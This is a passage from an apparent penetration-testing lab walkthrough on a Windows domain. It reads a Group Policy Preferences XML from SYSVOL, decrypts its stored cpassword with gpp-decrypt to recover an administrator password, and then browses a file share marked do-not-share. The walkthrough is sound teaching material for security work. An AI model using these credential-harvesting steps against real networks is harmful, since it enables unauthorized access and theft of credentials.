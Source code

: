 ```console

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:13 AM                oldpolicy
d-----          9/2/2022   4:08 PM                {31B2F340-016D-11D2-945F-00C04FB984F9}
d-----          9/2/2022   4:08 PM                {6AC1786C-016F-11D2-945F-00C04fB984F9}

PS> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups   clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User   clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
          name="Administrator (built-in)"
          image="2"
          changed="2012-05-03 11:45:20"
          uid="{253F4D90-150A-4EFB-BCC8-6E894A9105F7}">
    <Properties
          action="U"
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
          changeLogon="0"
          noChange="0"
          neverExpires="0"
          acctDisabled="0"
          userName="Administrator (built-in)"
          expires="2016-02-10" />
  </User>
</Groups>
```

We found a password! Historically, system administrators often changed local workstation passwords through Group Policy Preferences (GPP). However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on MSDN. can use this key to decrypt these encrypted passwords.

```console
kali$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
P@$$w0rd
```

Note this password down. Let's look at other shares of interest.

```console
PS> ls \\FILES04\docshare
 Directory: \\FILES04\docshare


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   2:02 AM                docs

PS> ls \\FILES04\docshare\docs\do-not-share
 Directory: \\FILES04\docshare\docs\do-not-share


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/21/2022   2:02 AM           1142 start-email.txt

PS> cat \\FILES04\docshare\docs\do-not-share\start-email.txt
Hi Jeff,

We are excited to have you on the team here in Corp. As Pete mentioned, we have been without a system administrator
```